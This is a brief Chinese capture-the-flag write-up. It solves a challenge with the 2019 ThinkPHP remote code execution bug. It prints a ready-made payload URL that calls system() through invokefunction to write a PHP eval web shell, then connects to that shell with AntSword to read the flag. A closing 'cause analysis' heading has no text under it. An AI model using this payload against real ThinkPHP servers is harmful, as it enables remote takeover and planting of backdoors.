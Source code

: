 19年爆的thinkphp rce现在竟然被用了（感觉学到了前线的感觉）

先写payload（网上直接搜索到了现成的payload）

http://61.147.171.105:60269/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo '<?php @eval($_POST["code"]);?>' > 1.php   

然后用蚁剑链接http://61.147.171.105:60269/1.php

找到flag即可

漏洞成因分析
